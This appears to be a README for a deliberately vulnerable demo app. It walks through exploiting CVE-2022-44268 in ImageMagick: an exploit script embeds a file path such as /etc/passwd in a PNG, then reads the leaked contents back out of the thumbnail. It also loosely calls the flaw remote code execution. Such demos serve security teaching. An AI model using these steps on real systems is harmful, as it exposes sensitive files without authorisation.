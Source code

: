 # Exploiting the thumbnailer service

The thumbnailer service is a simple service that takes a user profile picture and creates a thumbnail of it. It is used by the todolist application to reduce the storage needs of the user profile pictures.

The service is comprised of a simple flask application built into a container image which leverages the ImageMagick `convert` command to perform the image manipulation.

As-is, the base image used for the thumbnailer service is vulnerable to the [CVE-2022-44268](https://security.snyk.io/vuln/SNYK-UBUNTU1604-IMAGEMAGICK-3315916) vulnerability which allows for remote code execution. This vulnerability is exploitable via the `convert` command used by the thumbnailer service and can be used to expose files from the host system.

Thumbnailer service sequence diagram as used with the parent todolist application:
![sequence diagram](thumbnailer-seq.png)

## Steps to demonstrate the exploit (using docker-compose)

1. Start the todolist application with the thumbnailer service (run this from the todolist-goof directory)
    ```bash
    docker-compose up --build # or "docker compose" (no hyphen) on newer Docker Desktop installs 
    ```
1. Select a .png file (or use the k8s.png or goodboi.png file in this directory) to use as your profile picture
1. In another shell, use the `exploit.py` script `encode` command to embed the exploit payload into the image file, giving the path of a file you want to read from the thumbnailer container filesystem
    ```bash
    # Example: encode /etc/passwd into k8s.png
    $ ./exploit.py encode k8s.png /etc/passwd
    Encoding /etc/passwd into k8s.png as encoded-k8s.png ...
    File encoded as encoded-k8s.png
    ```
1. Upload the encoded image file as your profile picture
1. Download the resulting profile thumbnail image
1. Use the `exloit.py` script's `decode` command to read the exfiltrated file contents from the downloaded image
    ```bash
    # Example: decode the exfiltrated file from the downloaded image
    $ ./exploit.py decode downloaded-image.png
    Decoding content from downloaded-image.png...
    
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    ...
    ```
## Clean up
1. Press `ctrl-c` in the shell running the docker-compose command
2. Optionally, also run `docker-compose rm` to remove the containers
3. Optionally, also run `docker rmi javagoof:latest and thumbnailer:latest` to remove the images used for this demo

## More details
For more on this exploit see the original report [article](https://www.metabaseq.com/imagemagick-zero-days/) by the folks at Metabase Q 
and also this [proof of concept](https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC) on GitHub.
